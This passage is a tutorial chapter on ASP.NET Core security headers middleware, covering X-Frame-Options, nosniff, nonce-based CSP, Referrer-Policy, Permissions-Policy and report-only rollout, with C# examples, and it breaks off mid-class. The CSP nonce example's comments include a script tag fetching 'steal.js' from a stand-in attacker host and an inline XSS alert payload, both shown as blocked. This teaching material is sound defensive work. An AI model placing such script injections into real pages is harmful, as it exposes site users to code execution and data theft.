


# 4.213 — Security Headers Middleware: X-Frame-Options, X-Content-Type, CSP

---

## PART 0 — Navigation & Context

### Domain Hierarchy

```
ASP.NET Core Mastery
│
├── A. Host & Application Lifecycle
├── B. Configuration System
├── C. Logging & Diagnostics
├── D. Dependency Injection
├── E. Middleware Pipeline
├── F. Routing System
├── G. Minimal APIs
├── H. MVC & Controllers
├── I. HTTP Fundamentals
├── J. Authentication
├── K. Authorization
├── L. Validation
├── M. Error Handling & Problem Details
├── N. Caching & Output
├── O. Rate Limiting
├── P. Security                            ← YOU ARE HERE
│   ├── 4.208 — HTTPS Enforcement: UseHttpsRedirection, HSTS
│   ├── 4.209 — CORS
│   ├── 4.210 — CSRF / Antiforgery
│   ├── 4.211 — Data Protection API
│   ├── 4.212 — Data Protection Key Management
│   ├── 4.213 — Security Headers Middleware ◄─ THIS NOTE
│   ├── 4.214 — XSS Prevention: HTML Encoding, CSP
│   ├── 4.215 — IDOR Prevention
│   ├── 4.216 — SQL Injection
│   ├── 4.217 — Secrets in Production
│   └── 4.218 — OWASP Top 10 Applied to ASP.NET Core
└── ...
```

### What You Need Before This

- **[[4.049 — The Middleware Pipeline: Request Delegation Chain]]** — security headers are emitted by middleware; you must understand the pipeline execution model and `next()` delegation before writing any middleware.
- **[[4.052 — Middleware Ordering: The Canonical Order and Why It Matters]]** — security header middleware must run _before_ endpoint execution (to guarantee headers on all responses) but _after_ the exception handler (so error responses also carry security headers).
- **[[4.125 — HttpResponse: Writing Status, Headers, Cookies, and Streaming Body]]** — headers are set on `HttpResponse.Headers`; understanding `Response.HasStarted` and `Response.OnStarting` is prerequisite for writing headers correctly.
- **[[4.208 — HTTPS Enforcement: UseHttpsRedirection, HSTS]]** — HSTS is itself a security header (`Strict-Transport-Security`); this topic extends that pattern to the full header family.

### What This Unlocks After

- **[[4.214 — XSS Prevention: HTML Encoding, CSP]]** — CSP is introduced here as a header; the XSS note deepens it into a full policy authoring discipline.
- **[[4.218 — OWASP Top 10 Applied to ASP.NET Core APIs]]** — security headers directly address OWASP A05 (Security Misconfiguration) and partially A03 (Injection via CSP).
- **[[4.210 — CSRF / Antiforgery]]** — `SameSite` cookies work in concert with `X-Frame-Options` and CSP's `frame-ancestors` to close clickjacking/CSRF vectors.

### Why This Matters at Scale

A single missing `X-Content-Type-Options: nosniff` header on a file-download API can allow a browser to reinterpret a JSON payload as executable HTML, opening a stored XSS vector that bypasses all server-side auth — security headers are the last line of passive defense that costs zero latency and covers every response automatically when implemented as middleware.

---

## PART 1 — The Core Mental Model

### The Fundamental Rule

> **ASP.NET Core has no built-in security headers middleware — every `X-Frame-Options`, `X-Content-Type-Options`, `Content-Security-Policy`, `Referrer-Policy`, and `Permissions-Policy` header must be explicitly written by custom middleware or a third-party library; failing to emit them leaves browsers without the instructions they need to defend against clickjacking, MIME sniffing, XSS, and information leakage, regardless of how correct the server-side auth and validation code is.**

### The Plain-Language Analogy

Think of security headers as the instructional signs posted by a building's security team to every visitor: "No photography allowed," "Emergency exits are here," "Do not enter server room." The building's door locks (authentication) and badge reader (authorization) protect against unauthorized entry — but the signs protect against visitors who _are_ let in doing dangerous things inadvertently. A visitor's browser is an insecure principal that will execute any script it finds unless told not to. Security headers are the signs that constrain what the browser is allowed to do with the response it receives.

This analogy holds under attack: if an attacker injects a malicious `<script>` tag into a page (XSS), the CSP `script-src` directive acts as the sign that says "scripts are only allowed from this building's official printer — this sign you found in the parking lot is not valid." The `X-Frame-Options: DENY` sign says "this room cannot be viewed through a one-way mirror in another room" — preventing clickjacking by forbidding iframe embedding. Remove the signs and the locks still work, but the inside of the building becomes far more dangerous.

### Taxonomy Diagram



---

## PART 2 — Deep Mechanics

### 2.1 — Pipeline Position: Where Security Headers Must Live

Security headers middleware must be placed to guarantee coverage of every response — including error responses, 404s, and static files. The correct position is **immediately after the exception handler and before everything else**:

```
──► ExceptionHandler       ← catches all exceptions; error responses must also have security headers
      ──► SecurityHeaders  ← ✅ CORRECT POSITION: wraps everything below
            ──► HSTS
                  ──► HttpsRedirection
                        ──► StaticFiles    ← static files ALSO need security headers
                              ──► Routing
                                    ──► CORS
                                          ──► Authentication
                                                ──► Authorization
                                                      ──► Endpoints
```

> [!WARNING] **Security headers middleware placed after `UseStaticFiles()` will NOT emit headers on static file responses.** This means your HTML pages, JavaScript files, and CSS files served from `wwwroot` will be delivered without CSP or `X-Frame-Options` — exactly the resources most vulnerable to MIME sniffing and framing attacks. Always register security headers middleware before `UseStaticFiles()`.

**ASP.NET Core internally (approximate) — how a custom security headers middleware works:**

```csharp
// ASP.NET Core internally (approximate):
// The security headers middleware is a simple pass-through wrapper.
// It modifies HttpContext.Response.Headers BEFORE calling next,
// so headers are attached to every response regardless of what the endpoint writes.

public sealed class SecurityHeadersMiddleware
{
    private readonly RequestDelegate _next;

    public SecurityHeadersMiddleware(RequestDelegate next) => _next = next;

    public async Task InvokeAsync(HttpContext context)
    {
        // Set all security headers on the response object.
        // These are buffered in memory until the first Write/Flush call.
        // Cost: ~N string header assignments, O(1) per header, ~1 alloc per header value
        AddSecurityHeaders(context.Response.Headers);

        await _next(context); // entire downstream pipeline runs; headers flush with first write
    }

    private static void AddSecurityHeaders(IHeaderDictionary headers)
    {
        headers["X-Content-Type-Options"]  = "nosniff";
        headers["X-Frame-Options"]         = "DENY";
        headers["Referrer-Policy"]         = "strict-origin-when-cross-origin";
        headers["X-XSS-Protection"]        = "0"; // disable legacy XSS auditor
        headers["Permissions-Policy"]      = "camera=(), microphone=(), geolocation=()";
        // CSP is set separately — it is complex and may vary per endpoint
    }
}
```

**Runtime cost labels:**

- Header dictionary insertion: `~1 allocation per header value string` when using string literals that are not interned
- For constant-valued headers (`nosniff`, `DENY`), the string is already interned: `~0 allocations` after first request
- Total for 5 static headers at 10k req/s: `~50k string operations/s` — unmeasurably cheap compared to any endpoint work
- CSP with nonce generation: `~1 allocation per request` for the nonce `Guid.NewGuid().ToString("N")`

---

### 2.2 — `X-Frame-Options`: Clickjacking Defense

The oldest and most universally supported anti-clickjacking header. A browser that receives this header will refuse to render the page inside an `<iframe>`, `<frame>`, or `<object>` tag unless the origin matches the policy.

```
// HTTP wire format — page with X-Frame-Options:
// GET /dashboard HTTP/1.1
// Host: app.example.com
//
// HTTP/1.1 200 OK
// Content-Type: text/html; charset=utf-8
// X-Frame-Options: DENY
// X-Content-Type-Options: nosniff
//
// <!DOCTYPE html>...
```

**Three valid values:**

|Value|Meaning|Use When|
|---|---|---|
|`DENY`|Never allow framing, from any origin|Default for all APIs and web apps; no legitimate use case for third-party framing|
|`SAMEORIGIN`|Allow framing only from the same origin|You have a legitimate same-origin iframe use case (e.g., embedded dashboard widget within your own app)|
|`ALLOW-FROM uri`|Allow framing from a specific URI|**Deprecated** — removed from spec; use CSP `frame-ancestors` instead|

**What happens when a browser receives `X-Frame-Options: DENY` and the page is embedded in an `<iframe>`:**

```
Browser receives 200 OK with X-Frame-Options: DENY
  └─► Browser checks: "Is this page being rendered inside a frame?"
        └─► YES: Block rendering. Show empty iframe or browser-default error.
              └─► Clickjacking attack fails: user cannot interact with hidden frame.
              
Browser receives 200 OK with X-Frame-Options: SAMEORIGIN
  └─► Browser checks: "Is the frame's parent origin the same as this page's origin?"
        ├─► YES (https://app.example.com framing https://app.example.com): Allow
        └─► NO (https://attacker.com framing https://app.example.com): Block
```

> [!NOTE] `X-Frame-Options` is **page-level** — it applies to the document being framed, not to resources within the document. If your payment checkout page has `DENY`, an attacker cannot iframe it. But your API endpoints (`/api/...`) returning JSON do not need this header because JSON is not a frammable document type. In practice, emit it on all responses for simplicity.

**The modern replacement: CSP `frame-ancestors`**

```
// Modern equivalent (CSP superset):
// Content-Security-Policy: frame-ancestors 'none'
//   → equivalent to X-Frame-Options: DENY

// Content-Security-Policy: frame-ancestors 'self'
//   → equivalent to X-Frame-Options: SAMEORIGIN

// Content-Security-Policy: frame-ancestors https://partner.example.com
//   → no X-Frame-Options equivalent — CSP only
```

> [!IMPORTANT] When both `X-Frame-Options` and CSP `frame-ancestors` are present, **CSP takes precedence** in modern browsers. Emit both for maximum compatibility with older browsers (IE 11, older Safari) that do not support CSP.

---

### 2.3 — `X-Content-Type-Options: nosniff`: MIME Sniffing Defense

One of the simplest and highest-value security headers. Without it, browsers apply MIME type detection ("sniffing") — they look at the content bytes and decide what type it looks like, overriding the `Content-Type` header the server sent.

**The attack this prevents:**

```
// Attacker uploads a file named "profile.jpg" to your file-upload endpoint.
// The file content is actually a valid HTML page containing <script> tags.
// Server stores it and serves it with Content-Type: image/jpeg

// Without X-Content-Type-Options: nosniff:
//   Browser sees bytes that look like HTML.
//   Browser ignores Content-Type: image/jpeg.
//   Browser renders the file as HTML — executing the embedded <script> tags.
//   Result: stored XSS via MIME confusion.

// With X-Content-Type-Options: nosniff:
//   Browser receives Content-Type: image/jpeg and this header.
//   Browser is FORBIDDEN from sniffing the content type.
//   Browser refuses to render the file as HTML/script.
//   Result: attack blocked.
```

**HTTP wire format:**

```
// GET /uploads/profile.jpg HTTP/1.1
//
// HTTP/1.1 200 OK
// Content-Type: image/jpeg
// X-Content-Type-Options: nosniff    ← browser must trust Content-Type, not sniff
// Content-Length: 48291
//
// [binary image data]
```

**Only one valid value:** `nosniff`. There is no other option. This header should be set on every response without exception.

**Framework source behavior:** ASP.NET Core does NOT set this header automatically on any response type — not on static files, not on API responses, not on Razor pages. It is your responsibility. The `UseStaticFiles()` middleware in particular omits it, which means any static asset could be MIME-sniffed without this header.

**Runtime cost:** `~0 allocations` per request after the first — the string `"nosniff"` is a compile-time constant that the CLR interns. Header dictionary insertion is an O(1) operation against a small dictionary.

---

### 2.4 — `Content-Security-Policy` (CSP): The Most Powerful and Most Complex Header

CSP instructs the browser which sources of content are legitimate. It is the primary defense against XSS: even if an attacker injects a `<script>` tag, CSP prevents it from executing if it comes from an unauthorized source.

**The directive vocabulary:**

```
// Full CSP directives reference:
// default-src  → fallback for all fetch directives not explicitly specified
// script-src   → controls JavaScript execution sources
// style-src    → controls CSS sources
// img-src      → controls image sources
// connect-src  → controls XHR, fetch, WebSocket, EventSource origins
// font-src     → controls font sources
// frame-src    → controls <iframe> sources loaded INTO this page
// frame-ancestors → controls which pages can IFRAME this page (replaces X-Frame-Options)
// media-src    → controls <audio>, <video> sources
// object-src   → controls <object>, <embed> sources (should always be 'none')
// base-uri     → controls <base> tag; prevents base-tag injection
// form-action  → controls where <form> submissions can go
// upgrade-insecure-requests → upgrades HTTP sub-resources to HTTPS automatically
// report-uri   → (deprecated) where to send CSP violation reports
// report-to    → (modern) named reporting endpoint group
```

**HTTP wire format — full production CSP:**

```
// HTTP/1.1 200 OK
// Content-Type: text/html; charset=utf-8
// Content-Security-Policy: default-src 'self';
//   script-src 'self' 'nonce-r4nd0mN0nc3' https://cdn.example.com;
//   style-src 'self' 'nonce-r4nd0mN0nc3' https://fonts.googleapis.com;
//   img-src 'self' data: https://images.example.com;
//   font-src 'self' https://fonts.gstatic.com;
//   connect-src 'self' https://api.example.com wss://ws.example.com;
//   frame-ancestors 'none';
//   object-src 'none';
//   base-uri 'self';
//   form-action 'self';
//   upgrade-insecure-requests;
//   report-to csp-endpoint
```

**CSP nonce pattern — the correct way to allow inline scripts:**

```csharp
// The nonce approach: each response gets a unique random token.
// Inline scripts tagged with matching nonce="..." are allowed; all others blocked.

// ASP.NET Core internally (approximate) — nonce generation middleware:
public sealed class CspNonceMiddleware
{
    private readonly RequestDelegate _next;

    public CspNonceMiddleware(RequestDelegate next) => _next = next;

    public async Task InvokeAsync(HttpContext context)
    {
        // Generate a cryptographically random nonce per request.
        // ~1 allocation: Span<byte> on stack (stackalloc), Convert.ToBase64String creates string.
        Span<byte> nonceBytes = stackalloc byte[16];
        System.Security.Cryptography.RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes);

        // Store nonce in HttpContext.Items so Razor views can access it via injection.
        context.Items["csp-nonce"] = nonce;

        // Write CSP header with the nonce embedded.
        // NOTE: Must use Response.OnStarting if you need the nonce from downstream code,
        // or set it here if you know the full policy upfront.
        context.Response.Headers["Content-Security-Policy"] =
            $"default-src 'self'; " +
            $"script-src 'self' 'nonce-{nonce}'; " +
            $"style-src 'self' 'nonce-{nonce}'; " +
            $"object-src 'none'; " +
            $"base-uri 'self'; " +
            $"frame-ancestors 'none'";

        await _next(context);
    }
}

// In the Razor view — using the nonce stored in HttpContext.Items:
// @inject IHttpContextAccessor HttpContextAccessor
// @{
//     var nonce = HttpContextAccessor.HttpContext?.Items["csp-nonce"] as string ?? "";
// }
// <script nonce="@nonce">
//     // This inline script is allowed because it carries the matching nonce.
//     initializeDashboard();
// </script>
//
// <script src="https://evil.com/steal.js"></script>  ← BLOCKED: no nonce, not in script-src
// <script>alert('xss')</script>                      ← BLOCKED: no nonce
```

**`Content-Security-Policy-Report-Only` — staging a policy before enforcing it:**

```
// HTTP/1.1 200 OK
// Content-Security-Policy-Report-Only: default-src 'self';
//   script-src 'self' 'nonce-abc123';
//   report-to csp-violations
//
// Browser behavior: does NOT block violations, but REPORTS them to the report-to endpoint.
// Use this to test your CSP policy in production before enforcing it.
// Pipeline position: same middleware writes this header instead of Content-Security-Policy.
```

**Runtime cost of CSP:**

- Static CSP string (no nonce): `~0 allocations` (string literal interned at startup)
- CSP with nonce: `~2 allocations` per request — `stackalloc byte[16]` (stack, no heap), `Convert.ToBase64String` (heap string), string interpolation for the full header value (heap string)
- Nonce generation using `RandomNumberGenerator.Fill(stackalloc byte[16])`: `~0.5 µs` per request — negligible

---

### 2.5 — `Referrer-Policy`: Information Leakage Defense

Controls how much of the current URL is included in the `Referer` header when a user navigates from your page to another site. Without this, internal URLs (including query parameters containing user IDs, session tokens, or sensitive routes) leak to third-party analytics, CDN logs, and error tracking services.

```
// Scenario: User visits https://app.example.com/account?userId=42&token=secret
// They click a link to https://analytics.example.com

// Without Referrer-Policy:
// Browser sends: Referer: https://app.example.com/account?userId=42&token=secret
// → The analytics service sees userId and token.

// With Referrer-Policy: strict-origin-when-cross-origin:
// Browser sends: Referer: https://app.example.com
// → Only the origin is sent cross-origin; path and query are stripped.
// → For same-origin navigation, full URL is still sent (useful for analytics).

// With Referrer-Policy: no-referrer:
// Browser sends: (nothing — Referer header omitted entirely)
// → Maximum privacy; breaks some analytics use cases.
```

**Recommended values by context:**

|Value|Behavior|Recommended For|
|---|---|---|
|`strict-origin-when-cross-origin`|Full URL same-origin; origin only cross-origin; nothing on downgrade (HTTPS→HTTP)|Default for most web apps|
|`no-referrer`|Never send Referer|Maximum privacy; healthcare/finance apps|
|`no-referrer-when-downgrade`|Full URL unless downgrading to HTTP|**Avoid** — leaks path to HTTPS third parties|
|`same-origin`|Full URL only to same-origin requests|When cross-origin Referer must be fully suppressed|

---

### 2.6 — `Permissions-Policy`: Browser Feature Restriction

Formerly known as `Feature-Policy`. Restricts which browser APIs (camera, microphone, geolocation, payment) can be used by the page and by any embedded iframes.

```
// HTTP/1.1 200 OK
// Permissions-Policy: camera=(), microphone=(), geolocation=(), payment=(),
//                     usb=(), magnetometer=(), accelerometer=()

// Effect: no script on this page (including injected XSS scripts) can access these APIs.
// Even if an attacker injects JS that calls navigator.mediaDevices.getUserMedia(),
// the browser will refuse because the policy forbids camera access.
```

**Production-safe baseline:** `camera=(), microphone=(), geolocation=()` — disables the three most sensitive APIs while allowing payment and other legitimate uses. For fintech/healthcare, add `payment=()` unless you explicitly use the Payment Request API.

---

### 2.7 — `X-XSS-Protection: 0`: The Counter-Intuitive Setting

Modern security guidance is to **disable** the legacy browser XSS auditor by sending `X-XSS-Protection: 0`. This seems backwards — why disable an XSS protection?

The legacy XSS auditor (Internet Explorer 8+, old Chrome/Safari) was a heuristic filter that could be _bypassed_ and _abused_ to **create** XSS vectors through "reflection injection" attacks. Modern browsers have removed it entirely. Sending `X-XSS-Protection: 1; mode=block` (the old recommendation) has no effect on modern browsers and can actually cause issues with some Edge/IE compatibility layers.

The correct modern posture: **disable it with `0`, and rely entirely on CSP** for XSS defense.

```
// Old (WRONG for modern deployments):
// X-XSS-Protection: 1; mode=block

// Correct (modern):
// X-XSS-Protection: 0
// + Content-Security-Policy: script-src 'self' 'nonce-...'
```

---

### 2.8 — Removing Dangerous Default Headers

ASP.NET Core omits most server-identifying headers by default (`X-Powered-By`, `X-AspNet-Version`), but hosting on IIS can re-introduce them. Removing them reduces the attack surface available to fingerprinting tools (Shodan, Wappalyzer).

```csharp
// Kestrel: no server header by default. To verify:
builder.WebHost.ConfigureKestrel(options =>
{
    // Kestrel adds "Server: Kestrel" by default. Remove it:
    options.AddServerHeader = false;
});

// If behind IIS:
// In web.config, add:
// <system.webServer>
//   <security>
//     <requestFiltering removeServerHeader="true" />
//   </security>
//   <httpProtocol>
//     <customHeaders>
//       <remove name="X-Powered-By" />
//     </customHeaders>
//   </httpProtocol>
// </system.webServer>

// HTTP wire format — with Server header removed:
// HTTP/1.1 200 OK
// Content-Type: application/json
// X-Content-Type-Options: nosniff
// ← No "Server: Kestrel" or "X-Powered-By: ASP.NET"
```

---

## PART 3 — Production Code Patterns

### Pattern 1: The Baseline Security Headers Middleware (Order Management API)

A single, reusable middleware class that emits all static security headers on every response. Register before everything except the exception handler.

```csharp
// OrdersApi/Security/SecurityHeadersMiddleware.cs

/// <summary>
/// Emits OWASP-recommended security headers on every HTTP response.
/// Register as the second middleware after UseExceptionHandler():
///   app.UseExceptionHandler("/error");
///   app.UseSecurityHeaders();        ← here
///   app.UseHsts();
///   app.UseStaticFiles();
///   ...
/// </summary>
public sealed class SecurityHeadersMiddleware
{
    private readonly RequestDelegate _next;
    private readonly SecurityHeadersOptions _options;

    public SecurityHeadersMiddleware(RequestDelegate next, SecurityHeadersOptions options)
    {
        _next    = next;
        _options = options;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        var headers = context.Response.Headers;

        // MIME sniffing prevention — always set, no exceptions.
        // Prevents browser from reinterpreting Content-Type (e.g., JSON served as HTML).
        headers["X-Content-Type-Options"] = "nosniff";

        // Clickjacking prevention.
        // Use DENY unless you have a legitimate same-origin iframe requirement.
        headers["X-Frame-Options"] = _options.FrameOptions;

        // Disable legacy XSS auditor. Modern browsers ignore it; old browsers could be
        // exploited via bypass techniques if left enabled.
        headers["X-XSS-Protection"] = "0";

        // Referrer leakage prevention.
        // strict-origin-when-cross-origin: full URL for same-origin, origin-only cross-origin.
        headers["Referrer-Policy"] = _options.ReferrerPolicy;

        // Browser API restrictions — disable by default, enable only what the app needs.
        headers["Permissions-Policy"] = _options.PermissionsPolicy;

        // CSP is intentionally NOT set here for APIs — it is set by the
        // CspMiddleware for HTML-producing endpoints only (see Pattern 2).
        // JSON API responses do not need script-src or style-src directives.
        if (_options.EmitCspOnAllResponses)
            headers["Content-Security-Policy"] = _options.ContentSecurityPolicy;

        await _next(context);
    }
}

// OrdersApi/Security/SecurityHeadersOptions.cs
public sealed class SecurityHeadersOptions
{
    public string FrameOptions      { get; init; } = "DENY";
    public string ReferrerPolicy    { get; init; } = "strict-origin-when-cross-origin";
    public string PermissionsPolicy { get; init; } = "camera=(), microphone=(), geolocation=()";
    public bool   EmitCspOnAllResponses { get; init; } = false;
    public string ContentSecurityPolicy { get; init; } = "default-src 'self'; object-src 'none'; base-uri 'self'";
}

// OrdersApi/Security/SecurityHeadersExtensions.cs
public static class SecurityHeadersExtensions
{
    public static IApplicationBuilder UseSecurityHeaders(
        this IApplicationBuilder app,
        Action<SecurityHeadersOptions>? configure = null)
    {
        var options = new SecurityHeadersOptions();
        configure?.Invoke(options);
        return app.UseMiddleware<SecurityHeadersMiddleware>(options);
    }
}

// Registration in Program.cs:
app.UseExceptionHandler("/error");
app.UseSecurityHeaders(opts =>
{
    opts.FrameOptions   = "DENY";
    opts.ReferrerPolicy = "strict-origin-when-cross-origin";
});
app.UseHsts();
app.UseHttpsRedirection();
app.UseStaticFiles();
// ...

// HTTP wire effect (GET /api/orders):
// HTTP/1.1 200 OK
// Content-Type: application/json
// X-Content-Type-Options: nosniff
// X-Frame-Options: DENY
// X-XSS-Protection: 0
// Referrer-Policy: strict-origin-when-cross-origin
// Permissions-Policy: camera=(), microphone=(), geolocation=()
```

---

### Pattern 2: Nonce-Based CSP for Razor Pages / MVC Views (User Authentication Flow)

For applications that render HTML with inline scripts, a per-request cryptographic nonce is the only CSP approach that is both secure and practical.

```csharp
// AuthPortal/Security/CspNonceMiddleware.cs

/// <summary>
/// Generates a per-request CSP nonce and attaches a full Content-Security-Policy header.
/// The nonce is stored in HttpContext.Items for use in Razor views via CspNonceTagHelper.
/// 
/// Only attach to routes that produce HTML. For JSON API routes, use the
/// simpler SecurityHeadersMiddleware (Pattern 1) without CSP.
/// </summary>
public sealed class CspNonceMiddleware
{
    private readonly RequestDelegate _next;
    private readonly string _cspTemplate;

    public CspNonceMiddleware(RequestDelegate next)
    {
        _next = next;
        // Pre-build the CSP template with a placeholder for the nonce.
        // The placeholder is replaced per-request; the rest is a compile-time constant.
        _cspTemplate =
            "default-src 'self'; " +
            "script-src 'self' 'nonce-{0}'; " +
            "style-src 'self' 'nonce-{0}' https://fonts.googleapis.com; " +
            "font-src 'self' https://fonts.gstatic.com; " +
            "img-src 'self' data:; " +
            "connect-src 'self'; " +
            "frame-ancestors 'none'; " +
            "object-src 'none'; " +
            "base-uri 'self'; " +
            "form-action 'self'; " +
            "upgrade-insecure-requests";
    }

    public async Task InvokeAsync(HttpContext context)
    {
        // Generate cryptographically strong nonce.
        // stackalloc avoids heap allocation for the raw bytes.
        Span<byte> nonceBytes = stackalloc byte[16];
        System.Security.Cryptography.RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes); // ~1 allocation: the base64 string

        // Store nonce for Razor view consumption.
        context.Items["csp-nonce"] = nonce;

        // Write CSP header — string.Format with nonce embedded.
        // ~1 allocation: the formatted string
        context.Response.Headers["Content-Security-Policy"] =
            string.Format(_cspTemplate, nonce);

        await _next(context);
    }
}

// AuthPortal/TagHelpers/CspNonceTagHelper.cs
// Automatically injects nonce into <script nonce> and <style nonce> tags.
[HtmlTargetElement("script")]
[HtmlTargetElement("style")]
public sealed class CspNonceTagHelper : TagHelper
{
    private readonly IHttpContextAccessor _httpContextAccessor;

    public CspNonceTagHelper(IHttpContextAccessor accessor)
        => _httpContextAccessor = accessor;

    public override void Process(TagHelperContext context, TagHelperOutput output)
    {
        var nonce = _httpContextAccessor.HttpContext?.Items["csp-nonce"] as string;
        if (nonce is not null)
            output.Attributes.SetAttribute("nonce", nonce);
    }
}

// In Razor view (_Layout.cshtml):
// <script src="~/js/auth.js"></script>   ← TagHelper injects nonce automatically
// <script>
//     // This inline script will also get nonce injected by the TagHelper
//     console.log('Auth portal loaded');
// </script>

// HTTP wire effect (GET /login):
// HTTP/1.1 200 OK
// Content-Type: text/html; charset=utf-8
// X-Content-Type-Options: nosniff
// X-Frame-Options: DENY
// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123def456=='; ...
//
// <script nonce="abc123def456==">console.log('Auth portal loaded');</script>
// <script src="/js/auth.js" nonce="abc123def456=="></script>
```

---

### Pattern 3: Report-Only CSP for Rollout Without Breaking Production (Payment Processing API)

```csharp
// PaymentPortal/Security/CspRolloutMiddleware.cs

/// <summary>
/// Two-phase CSP rollout:
///   Phase 1: Report-Only — collect violations for 2–4 weeks, monitor the report endpoint
///   Phase 2: Enforce — switch to Content-Security-Policy once violations are resolved
/// 
/// Controlled by IConfiguration["Csp:Enforce"] flag — toggle in Azure App Configuration
/// without a deployment.
/// </summary>
public sealed class CspRolloutMiddleware
{
    private readonly RequestDelegate _next;
    private readonly IConfiguration _configuration;

    public CspRolloutMiddleware(RequestDelegate next, IConfiguration configuration)
    {
        _next          = next;
        _configuration = configuration;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        Span<byte> nonceBytes = stackalloc byte[16];
        System.Security.Cryptography.RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes);
        context.Items["csp-nonce"] = nonce;

        var policy =
            $"default-src 'self'; " +
            $"script-src 'self' 'nonce-{nonce}'; " +
            $"style-src 'self' 'nonce-{nonce}'; " +
            $"object-src 'none'; " +
            $"frame-ancestors 'none'; " +
            $"base-uri 'self'; " +
            $"report-to csp-violations";

        // Report-Only: browser logs violations but does NOT block anything.
        // Enforce: browser blocks and also reports.
        var enforce = _configuration.GetValue<bool>("Csp:Enforce");
        var headerName = enforce
            ? "Content-Security-Policy"
            : "Content-Security-Policy-Report-Only";

        context.Response.Headers[headerName] = policy;

        // Report-To header: tells the browser WHERE to send violation reports.
        // The /csp-report endpoint collects and logs these for analysis.
        context.Response.Headers["Report-To"] =
            """{"group":"csp-violations","max_age":86400,"endpoints":[{"url":"/csp-report"}]}""";

        await _next(context);
    }
}

// PaymentPortal/Controllers/CspReportController.cs
// Endpoint that receives violation reports from browsers.
[ApiController]
[Route("csp-report")]
public sealed class CspReportController : ControllerBase
{
    private readonly ILogger<CspReportController> _logger;

    public CspReportController(ILogger<CspReportController> logger)
        => _logger = logger;

    [HttpPost]
    [Consumes("application/csp-report", "application/json")]
    public IActionResult Receive([FromBody] CspReport report)
    {
        // Log the violation for analysis — do NOT throw exceptions here.
        // Browser sends POST with Content-Type: application/csp-report.
        _logger.LogWarning(
            "CSP Violation: blocked-uri={BlockedUri} violated-directive={ViolatedDirective} document={DocumentUri}",
            report.CspReport?.BlockedUri,
            report.CspReport?.ViolatedDirective,
            report.CspReport?.DocumentUri);

        return NoContent(); // 204 — browser expects no response body
    }
}

public sealed class CspReport
{
    [JsonPropertyName("csp-report")]
    public CspReportBody? CspReport { get; set; }
}

public sealed class CspReportBody
{
    [JsonPropertyName("blocked-uri")]      public string? BlockedUri { get; set; }
    [JsonPropertyName("violated-directive")] public string? ViolatedDirective { get; set; }
    [JsonPropertyName("document-uri")]     public string? DocumentUri { get; set; }
    [JsonPropertyName("original-policy")]  public string? OriginalPolicy { get; set; }
    [JsonPropertyName("source-file")]      public string? SourceFile { get; set; }
    [JsonPropertyName("line-number")]      public int? LineNumber { get; set; }
}

// HTTP wire effect (during report-only phase):
// HTTP/1.1 200 OK
// Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' 'nonce-xyz=='; ...
// Report-To: {"group":"csp-violations","max_age":86400,...}
// ← No enforcement; violations are reported to /csp-report and logged
```

---

### Pattern 4: Environment-Conditional CSP — Strict in Production, Relaxed in Development (Multi-Tenant SaaS)

```csharp
// SaasApi/Security/EnvironmentAwareCspMiddleware.cs

/// <summary>
/// Development CSP is deliberately permissive to allow hot-reload tools, Vite HMR,
/// browser DevTools, and local test scripts. Production CSP is strict.
/// 
/// NEVER use 'unsafe-inline' or 'unsafe-eval' in production — these entirely
/// defeat the purpose of CSP for XSS prevention.
/// </summary>
public sealed class EnvironmentAwareCspMiddleware
{
    private readonly RequestDelegate _next;
    private readonly string _cspHeaderValue;

